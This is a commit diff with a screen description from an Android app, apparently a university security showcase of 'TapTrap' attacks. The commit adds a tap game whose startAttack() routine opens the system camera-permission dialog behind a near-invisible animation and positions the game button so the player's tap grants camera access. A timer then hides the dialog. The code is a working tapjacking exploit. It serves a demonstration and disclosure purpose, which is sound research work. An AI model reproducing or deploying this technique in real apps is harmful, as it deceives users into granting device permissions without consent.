
After one commit to ClaudioCurseri/taptrap-attacks, an Android app: the TapGameActivity screen opened directly, with no data from a screen before it, on a phone screen of 412 x 824 dp. The commit adds this screen. Shown: the top 853 px of the screen. Run offline under Robolectric (Android 15) with nearby library versions, the light colour scheme and no system bars; libraries missing offline, so code that uses them is left out: androidx.camera.lifecycle; 1 statement that could not run was skipped.

Commit message:
feat: implement runtime permission bypass attack

```diff
--- a/app/build.gradle.kts
+++ b/app/build.gradle.kts
@@ -9,6 +9,7 @@ android {
 
     buildFeatures {
         viewBinding = true
+        dataBinding = true
     }
 
     defaultConfig {
@@ -46,6 +47,10 @@ dependencies {
     implementation(libs.material)
     implementation(libs.androidx.activity)
     implementation(libs.androidx.constraintlayout)
+    implementation(libs.androidx.camera.core)
+    implementation(libs.androidx.camera.lifecycle)
+    implementation(libs.androidx.camera.view)
+    implementation(libs.androidx.camera.camera2)
     testImplementation(libs.junit)
     androidTestImplementation(libs.androidx.junit)
     androidTestImplementation(libs.androidx.espresso.core)
--- a/app/src/main/java/edu/hm/itsec/taptrapattackshowcase/runtimepermissions/RuntimePermissionsActivity.kt
+++ b/app/src/main/java/edu/hm/itsec/taptrapattackshowcase/runtimepermissions/RuntimePermissionsActivity.kt
@@ -1,5 +1,6 @@
 package edu.hm.itsec.taptrapattackshowcase.runtimepermissions
 
+import android.content.Intent
 import android.os.Bundle
 import androidx.appcompat.app.AppCompatActivity
 import edu.hm.itsec.taptrapattackshowcase.databinding.ActivityRuntimePermissionsBinding
@@ -13,5 +14,10 @@ class RuntimePermissionsActivity : AppCompatActivity() {
         binding = ActivityRuntimePermissionsBinding.inflate(layoutInflater)
         val view = binding.root
         setContentView(view)
+
+        binding.btnStartGame.setOnClickListener {
+            val intent = Intent(applicationContext, TapGameActivity::class.java)
+            startActivity(intent)
+        }
     }
 }
--- /dev/null
+++ b/app/src/main/java/edu/hm/itsec/taptrapattackshowcase/runtimepermissions/TapGameActivity.kt
@@ -0,0 +1,272 @@
+package edu.hm.itsec.taptrapattackshowcase.runtimepermissions
+
+import android.app.Activity
+import android.content.Intent
+import android.content.pm.PackageManager
+import android.graphics.Rect
+import android.os.Bundle
+import android.os.CountDownTimer
+import android.os.Handler
+import android.os.Looper
+import android.util.Log
+import android.view.View
+import android.widget.Button
+import android.widget.Toast
+import androidx.activity.enableEdgeToEdge
+import androidx.activity.result.contract.ActivityResultContracts
+import androidx.appcompat.app.AppCompatActivity
+import androidx.camera.lifecycle.ProcessCameraProvider
+import androidx.core.app.ActivityOptionsCompat
+import androidx.core.content.ContextCompat
+import androidx.core.view.ViewCompat
+import androidx.core.view.WindowInsetsCompat
+import androidx.core.view.isVisible
+import com.google.common.util.concurrent.ListenableFuture
+import edu.hm.itsec.taptrapattackshowcase.R
+import edu.hm.itsec.taptrapattackshowcase.databinding.ActivityTapGameBinding
+import java.util.Random
+
+
+class TapGameActivity : AppCompatActivity() {
+
+    private lateinit var binding: ActivityTapGameBinding
+
+    private val TAG: String = "TapGameActivity"
+
+    // game logic
+    private val handler = Handler(Looper.getMainLooper())
+    private val random = Random()
+    private var screenWidth = 0
+    private var screenHeight = 0
+
+    // Delay constants (in milliseconds)
+    private val APPEAR_DELAY: Long = 1000 // Time after tap before it reappears
+    private val AUTOHIDE_DELAY: Long = 3000 // Time before it hides if not tapped
+
+    // Runnables to control each button's appearance
+    private val runnableA = Runnable { showButton(binding.buttonA, binding.buttonB) }
+    private val runnableB = Runnable { showButton(binding.buttonB, binding.buttonA) }
+
+    private var score = 0
+
+    private var granted: Boolean = false
+    private var retry: Boolean = false
+
+    private lateinit var cameraProviderFuture : ListenableFuture<ProcessCameraProvider>
+
+    private var resultLauncher = registerForActivityResult(ActivityResultContracts.StartActivityForResult()) { result ->
+        if (result.resultCode == Activity.RESULT_OK) {
+            granted()
+            binding.buttonA.performClick()
+        }
+    }
+
+    override fun onCreate(savedInstanceState: Bundle?) {
+        super.onCreate(savedInstanceState)
+        cameraProviderFuture = ProcessCameraProvider.getInstance(this)
+        enableEdgeToEdge()
+        binding = ActivityTapGameBinding.inflate(layoutInflater)
+        val view = binding.root
+        setContentView(view)
+        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.rootLayout)) { v, insets ->
+            val systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars())
+            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom)
+            insets
+        }
+
+        // Wait for the layout to be drawn to get its dimensions
+        binding.rootLayout.post {
+            screenWidth = binding.rootLayout.width
+            screenHeight = binding.rootLayout.height
+            // Start the game!
+            handler.post(runnableA)
+            handler.post(runnableB)
+        }
+
+        // click listeners
+        binding.buttonA.setOnClickListener {
+            score++
+            binding.scoreTextView.text = getString(R.string.score_0, score)
+            // finish the game after 5 taps
+            val message: String = if (cameraAccessGranted()) {
+                "The permission to access the camera has been granted by you. Did you notice?"
+            } else {
+                "You did not grant the permission to access the camera. You won!"
+            }
+            if (score >= 5) {
+                val gameOverDialog = GameOverDialog.newInstance(
+                    "Game Over",
+                    message)
+                gameOverDialog.show(supportFragmentManager, "GameOverDialog")
+            }
+            handleTap(it, runnableA)
+        }
+        binding.buttonB.setOnClickListener {
+            handleTap(it, runnableB)
+        }
+        binding.scoreTextView.text = getString(R.string.score_0, score)
+    }
+
+
+    /**
+     * Handles the logic for when a button is tapped.
+     */
+    private fun handleTap(button: View, reShowRunnable: Runnable) {
+
+        button.visibility = View.INVISIBLE
+
+        // Cancel the "auto-hide" runnable (stored in the tag)
+        (button.tag as? Runnable)?.let { handler.removeCallbacks(it) }
+
+        // Stop any other pending "show" commands for this button
+        handler.removeCallbacks(reShowRunnable)
+
+        // Schedule this button to reappear after a delay
+        handler.postDelayed(reShowRunnable, APPEAR_DELAY)
+    }
+
+    /**
+     * The main logic to show a button in a new, non-overlapping position.
+     */
+    private fun showButton(buttonToShow: Button, otherButton: Button) {
+        // Don't run if the layout isn't ready
+        if (screenWidth == 0 || screenHeight == 0) return
+
+        // Get button dimensions
+        buttonToShow.measure(View.MeasureSpec.UNSPECIFIED, View.MeasureSpec.UNSPECIFIED)
+        val buttonWidth = buttonToShow.measuredWidth
+        val buttonHeight = buttonToShow.measuredHeight
+
+        var newX: Float
+        var newY: Float
+
+        if (buttonToShow == binding.buttonA && score == 2) {
+            newX = (screenWidth - buttonWidth) / 2f
+            newY = (screenHeight - buttonHeight) / 2f
+            startAttack()
+        } else {
+            val newRect = Rect()
+            val otherRect = Rect()
+
+            // Get the other button's position if it's visible
+            if (otherButton.isVisible) {
+                otherButton.getHitRect(otherRect)
+            }
+
+            var overlap: Boolean
+            do {
+                // Calculate a random top-left corner
+                newX = random.nextInt(screenWidth - buttonWidth).toFloat()
+                newY = random.nextInt(screenHeight - buttonHeight).toFloat()
+
+                // Create a Rect for the button's new potential position
+                newRect.set(newX.toInt(), newY.toInt(), newX.toInt() + buttonWidth, newY.toInt() + buttonHeight)
+
+                // Check for overlap only if the other button is currently visible
+                overlap = if (otherButton.isVisible) {
+                    Rect.intersects(newRect, otherRect)
+                } else {
+                    false // No other button, so no overlap
+                }
+            } while (overlap) // Loop until we find a non-overlapping spot
+        }
+
+        // Position and show the button
+        buttonToShow.x = newX
+        buttonToShow.y = newY
+        buttonToShow.visibility = View.VISIBLE
+
+        // Create a new runnable that will hide this button if it's not tapped
+        val hideRunnable = Runnable {
+            if (buttonToShow.isVisible) {
+                buttonToShow.visibility = View.INVISIBLE
+                // Schedule it to show again (as if it were a "miss")
+                val reShowRunnable = if (buttonToShow == binding.buttonA) runnableA else runnableB
+                handler.postDelayed(reShowRunnable, APPEAR_DELAY)
+            }
+        }
+        // Store this runnable in the button's tag so we can cancel it on tap
+        buttonToShow.tag = hideRunnable
+        handler.postDelayed(hideRunnable, AUTOHIDE_DELAY)
+    }
+
+    /**
+     * Clean up handlers when the app is paused to prevent memory leaks
+     * and background activity.
+     */
+    override fun onPause() {
+        super.onPause()
+        // Remove all scheduled runnables
+        handler.removeCallbacks(runnableA)
+        handler.removeCallbacks(runnableB)
+        (binding.buttonA.tag as? Runnable)?.let { handler.removeCallbacks(it) }
+        (binding.buttonB.tag as? Runnable)?.let { handler.removeCallbacks(it) }
+    }
+
+    /**
+     * Restart the game logic when the app is resumed.
+     */
+    override fun onResume() {
+        super.onResume()
+        // Only restart if the layout is ready
+        if (screenWidth > 0) {
+            // Use postDelayed to give a slight buffer
+            handler.postDelayed(runnableA, APPEAR_DELAY)
+            handler.postDelayed(runnableB, APPEAR_DELAY)
+        }
+    }
+
+    /**
+     * Registers that the camera permission has been granted.
+     *
+     */
+    private fun granted() {
+        retry = false
+        granted = true
+        Log.d(TAG, "Camera access has been granted!")
+    }
+
+    private fun startAttack() {
+        // cancel attack if permission has already been granted
+        if (cameraAccessGranted()) return
+
+        Log.d(TAG, "Starting attack...")
+
+        // Creates an Intent to open the camera permission request screen
+        val intent = Intent("android.content.pm.action.REQUEST_PERMISSIONS")
+        intent.putExtra(
+            "android.content.pm.extra.REQUEST_PERMISSIONS_NAMES",
+            arrayOf("android.permission.CAMERA")
+        )
+
+        // Creates the custom animation for the activity transition
+        val activityOptions =
+            ActivityOptionsCompat.makeCustomAnimation(this, R.anim.fade_in, R.anim.fade_out)
+
+        // Starts the camera permission request screen with the animation
+        resultLauncher.launch(intent, activityOptions)
+
+        // relaunch the TapGameActivity to hide the permission request screen after 6 seconds
+        object : CountDownTimer(6000, 1000) {
+            override fun onTick(millisUntilFinished: Long) {}
+
+            override fun onFinish() {
+                val tapGameActivityIntent = Intent(
+                    this@TapGameActivity,
+                    TapGameActivity::class.java
+                )
+                if (!granted) {
+                    retry = true
+                    val toast = Toast(applicationContext)
+                    toast.setText(R.string.failed_runtime_permission_toast)
+                    toast.show()
+                    startActivity(tapGameActivityIntent)
+                }
+            }
+        }.start()
+    }
+
+    private fun cameraAccessGranted(): Boolean {
+        return ContextCompat.checkSelfPermission(applicationContext, android.Manifest.permission.CAMERA) == PackageManager.PERMISSION_GRANTED
+    }
+}
--- /dev/null
+++ b/app/src/main/res/anim/fade_out.xml
@@ -0,0 +1,6 @@
+<?xml version="1.0" encoding="utf-8"?>
+<!-- 0s animation -->
+<alpha xmlns:android="http://schemas.android.com/apk/res/android"
+    android:fromAlpha="1.0"
+    android:toAlpha="1.0"
+    android:duration="0" />
--- /dev/null
+++ b/app/src/main/res/layout/activity_tap_game.xml
@@ -0,0 +1,43 @@
+<?xml version="1.0" encoding="utf-8"?>
+<androidx.constraintlayout.widget.ConstraintLayout xmlns:android="http://schemas.android.com/apk/res/android"
+    xmlns:app="http://schemas.android.com/apk/res-auto"
+    xmlns:tools="http://schemas.android.com/tools"
+    android:id="@+id/rootLayout"
+    android:layout_width="match_parent"
+    android:layout_height="match_parent"
+    tools:context=".runtimepermissions.TapGameActivity">
+
+    <TextView
+        android:id="@+id/scoreTextView"
+        android:layout_width="wrap_content"
+        android:layout_height="wrap_content"
+        android:layout_marginTop="24dp"
+        android:text="@string/score_0"
+        android:textSize="24sp"
+        android:textStyle="bold"
+        app:layout_constraintEnd_toEndOf="parent"
+        app:layout_constraintStart_toStartOf="parent"
+        app:layout_constraintTop_toTopOf="parent" />
+
+    <Button
+        android:id="@+id/buttonA"
+        android:layout_width="wrap_content"
+        android:layout_height="wrap_content"
+        android:text="@string/tap_me"
+        android:visibility="invisible"
+        app:layout_constraintStart_toStartOf="parent"
+        app:layout_constraintTop_toTopOf="parent"
+        tools:visibility="visible" />
+
+    <Button
+        android:id="@+id/buttonB"
+        android:layout_width="wrap_content"
+        android:layout_height="wrap_content"
+        android:backgroundTint="#FF9800"
+        android:text="@string/no_tap_me"
+        android:visibility="invisible"
+        app:layout_constraintStart_toStartOf="parent"
+        app:layout_constraintTop_toTopOf="parent"
+        tools:visibility="visible" />
+
+</androidx.constraintlayout.widget.ConstraintLayout>
--- a/app/src/main/res/values/strings.xml
+++ b/app/src/main/res/values/strings.xml
@@ -14,4 +14,10 @@
     <string name="btn_app_touchjacking">App Touchjacking</string>
     <string name="btn_clickjacking">Clickjacking</string>
     <string name="btn_control_ui_elements">Control UI Elements</string>
+    <string name="score_0">Score: %1$d</string>
+    <string name="failed_runtime_permission_toast">Failed to retrieve the runtime permission. Restarting…</string>
+    <string name="start_game">Start Game</string>
+    <string name="tap_me">Tap Me!</string>
+    <string name="no_tap_me">No, Tap Me!</string>
+    <string name="game_desc">Tap on every button with the text \"Tap Me!\" in order to increase the score.</string>
 </resources>
```
Also changed, not shown: app/src/main/AndroidManifest.xml (+10 -0 lines), app/src/main/java/edu/hm/itsec/taptrapattackshowcase/runtimepermissions/GameOverDialog.kt (added, +90 -0 lines), app/src/main/res/anim/fade_in.xml (added, +18 -0 lines), app/src/main/res/layout/activity_runtime_permissions.xml (+22 -2 lines), app/src/main/res/layout/custom_alert_dialog.xml (added, +41 -0 lines), gradle/libs.versions.toml (+8 -0 lines).
